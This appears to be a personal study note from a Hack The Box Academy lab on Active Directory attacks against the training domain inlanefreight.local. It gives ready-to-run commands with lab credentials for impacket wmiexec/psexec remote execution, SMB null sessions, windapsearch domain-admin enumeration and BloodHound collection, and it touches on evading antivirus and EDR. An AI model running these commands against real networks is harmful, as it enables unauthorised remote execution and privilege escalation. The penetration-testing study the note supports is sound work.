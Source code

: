 
using the current user and password we have, we can use [[crackmapexec]] to harvest more usernames

can use [[SMBMap]] also 

rpcclient 
can create null smb sessions [[3 - Hacking/3.4 Services/SMB|SMB]] and then we can `enumdomusers` , `queryuser 0xuserid`, ? to see all the commands available

Can use impacket toolkit
# wmiexec.py
```bash
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```
a bit more stealthy approach that other tools but would still likely caught by most modern anti-virus and EDR systems 
# psexec.py
```bash
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125  
```
credentials must be for a user with local administrator privileges

# windapsearch 
enumerate domain admins
```
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```
privilege users
```shell-session
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```

# bloodhound 
```shell-session
sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all 
```
theres an output json file in the current working directory 

uploading the zip file into the bloodhound gui 
```
sudo neo4j start
```
if it requires a password in htb -> user == neo4j, pass == HTB_@cademy_stdnt!

upload data -> if many json files, put them in a folder zip them and then upload it

now you can analyse them like 
```
Find Shortest Path to Domain Admins

Search for Domain Users
Node Info 
Analysis
```